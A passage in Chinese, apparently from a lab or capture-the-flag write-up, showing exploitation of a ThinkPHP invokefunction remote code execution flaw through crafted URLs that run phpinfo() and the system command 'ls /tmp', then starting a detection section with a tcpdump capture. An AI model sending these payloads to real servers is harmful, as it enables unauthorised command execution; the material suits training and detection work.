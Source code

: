 2. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
![](./pics/phpinfo.png)<br>
3. 执行系统命令`ls /tmp`

`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
![](./pics/第三个flag.png)<br>


# 漏洞利用检测
## 入口靶标利用检测
#### 手动检测
1. **wireshark抓包**
   我们可以利用wireshark抓包来查看攻击行为。
   ```bash
   sudo tcpdump -i eth1 -w capture.pcap port 18813
   ```